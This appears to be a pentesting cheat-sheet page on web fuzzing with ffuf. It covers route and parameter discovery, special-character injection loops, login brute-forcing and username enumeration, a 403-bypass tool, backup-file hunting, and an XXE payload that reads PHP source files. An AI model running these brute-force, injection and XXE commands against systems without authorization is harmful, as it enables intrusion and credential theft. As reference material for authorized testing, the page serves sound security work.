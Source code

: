 # Fuzzing

The term fuzzing refers to a testing technique that sends various types of user input to a given interface to study how it would react. In the web case, it is to see valid routes or, failing that, to observe some different behavior.

## ffuf

### Essentials

```bash
# Essentials:
ffuf -c -w <WORDLIST> -u <URL>/FUZZ -t 50 # Simple fuzzing with threads.
ffuf -c -r -w <WORDLIST> -u <URL>/FUZZ # Redirects with the "-r" parameter.
ffuf -c -w <WORDLIST>:PALABRA -w <WORDLIST>:EXTENSION -u <URL>/PALABRA.EXTENSION -mc all # Double fuzzer
ffuf -fs 233 -c -w /opt/SecLists/Discovery/Web-Content/common.txt -u '<URL>/FUZZ' -mc all # Filter by size, not by status code (ideal for pages where the home page gives us a 404 code)
ffuf -c -w /opt/SecLists/Discovery/Web-Content/web-extensions.txt -u <URL>/indexFUZZ -mc all # Fuzzing of web extensions.
ffuf -c -w <WORDLIST> -u <URL>/FUZZ -mc all # Search by ALL codes.
ffuf -w <WORDLIST> -u <URL>/FUZZ -recursion -recursion-depth 1 -e .php -v # Recursive (recursion-depth 1 = depth up to 1 more path.
ffuf -c -w <WORDLIST> -u <URL>/FUZZ -H 'Cookie: <COOKIE>' # Header (Example with a cookie)
ffuf -c -w <WORDLIST> -u '<URL>/FFUF' -x socks5://127.0.0.1:1080 # Proxy
```

### Parameters or data (GET/POST)

```bash
ffuf -c -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt -u '<URL>/?FUZZ=key'
ffuf -c -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt -u <URL>/<PATH> -X POST -d 'FUZZ=key'
# Test POST requests but with GET content (useful for endpoint APIs that need a GET type parameter through POST):
ffuf -c -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt -u '<URL>/?FUZZ=key' -X POST
# Numeric values (the "-" will take the stdout from the first command):
seq 0 255 | ffuf -c -w - -u '<URL>/?id=FUZZ' -mc all
```

### Injections

```bash
# Injections:
# GET:
ffuf -c -w /opt/SecLists/Fuzzing/special-chars.txt -u "<URL>/?asd=FUZZ" -mc all
ffuf -c -w /opt/SecLists/Fuzzing/special-chars.txt -u "<URL>/?asd=FUZZFUZZ" -mc all
ffuf -c -w /opt/SecLists/Fuzzing/special-chars.txt -u "<URL>/?asd=FUZZ " -mc all
ffuf -c -w /opt/SecLists/Fuzzing/special-chars.txt -u "<URL>/?asd=FUZZ FUZZ" -mc all
# POST:
ffuf -c -w /opt/SecLists/Fuzzing/special-chars.txt -u "<URL>" -d "<KEY>=FUZZ" -H "<CONTENTTYPE>" -mc all
ffuf -c -w /opt/SecLists/Fuzzing/special-chars.txt -u "<URL>" -d "<KEY>=FUZZFUZZ" -H "<CONTENTTYPE>" -mc all
# POST (show only headers):
ffuf -c -w /opt/SecLists/Fuzzing/special-chars.txt -u "<URL>" -d "<KEY>=FUZZ" -H "<CONTENTTYPE>" -mc all -v # Important the "-v", it can reveal different headers that we would not see with the naked eye.
for char in $(cat /opt/SecLists/Fuzzing/special-chars.txt); do echo "[+] Payload: $char"; curl '<URL>' -d "username=$char" -i; done # We can also use the "-v".
# Double special chars:
for char1 in $(cat /opt/SecLists/Fuzzing/special-chars.txt); do for char2 in $(cat /opt/SecLists/Fuzzing/special-chars.txt); do echo "[+] Payload: $char1$char2"; curl '<URL>' -d "username=$char" -i; done; done # We can also use the "-v".
# Double special chars (Only show status code):
for char1 in $(cat /opt/SecLists/Fuzzing/special-chars.txt); do for char2 in $(cat /opt/SecLists/Fuzzing/special-chars.txt
); do echo -n "[+] Payload: $char1$char2 : "; curl "<URL>" -o /dev/null -w "%{http_code}"; echo; done; done
```

{% hint style="danger" %}
With ffuf, it is very important to include the Content-Type header. Examples: `Content-Type: application/json` (JSON), `application/x-wwww-form-urlencoded` (PHP)
{% endhint %}

```bash
# Bruteforce
ffuf -c -w <WORDLIST> -X POST -d '<DATA>' -H '<HEADER>' -u <URL>
ffuf -c -w <WORDLIST> -X POST -d "username=<USER>&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -H "<COOKIE>" -u <URL>
ffuf -c -w <USERS WORDLIST>:W1,<WORDLIST>:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u <URL>
ffuf -c -w /opt/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&password=x" -H "Content-Type: application/x-www-form-urlencoded" -u <URL> -mr "username already exists"
```

## 403 fuzzing

Tool to bypass 403 responses.

{% embed url="https://github.com/channyein1337/403-bypass" %}

```bash
git clone https://github.com/channyein1337/403-bypass
cd 403-bypass
python3 403-bypass.py -u '<URL>' -p '<PATH>'
python3 403-bypass.py -u 'http://10.10.10.10' -p 'private/index.php' # Example
```

## **Tips**

#### 403 Forbidden

When obtaining a Forbidden (403) in the status code of the server-side response, it is recommended to continue investigating, since in spite of showing such response, we can continue enumerating directories and files within that directory, where after finding valid resources we see that these are visible from the web. To have a practical case, let's suppose that we have a directory /design that returns a Forbidden (403). One thing we can do is to set up a double Payload enumeration from ffuf in order to discover existing resources under that directory.

#### **Backups checking**

Web servers may keep backups of some files. Once you have found all the files, search for interesting file backups. The most common variants for naming a backup are:

```
file.ext~, #file.ext#, ~file.ext, file.ext.bak, file.ext.tmp, file.ext.old, file.bak, file.tmp, file.old
```

We can use the bfac tool to automate this search:

{% embed url="https://github.com/mazen160/bfac" %}

```bash
bfac --url http://example.com/test.php --level 2
```

#### File or directory name format

When searching for files or directories, it is very important to look at the name format of one of them. For example, let's suppose that through an XXE we manage to include .php files in base64 and we observe the following content of the index.php:

```php
<?php
include_once('../Autoload.php');
include_once('../Route.php');
include_once('../Output.php');
include_once('../View.php');

Route::load();
Route::run();
?>
```

We note that it is using the Laravel framework (by the "Route::" structure) and we see that the format of the file names begin with the letter in uppercase, it is not all lowercase. In that case, we could modify the wordlist as follows:

```bash
sed -e "s/\b\(.\)/\u\1/g" <WORDLIST>
```

And now, we can fuzz all the directories looking for files using the modified wordlist:

```bash
ffuf -c -w wordlist.txt -X POST -u 'http://10.10.211.87/api/products?format=xml' -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=../routes/FUZZ.php"> ]><data><productId>&xxe;</productId></data>'
```
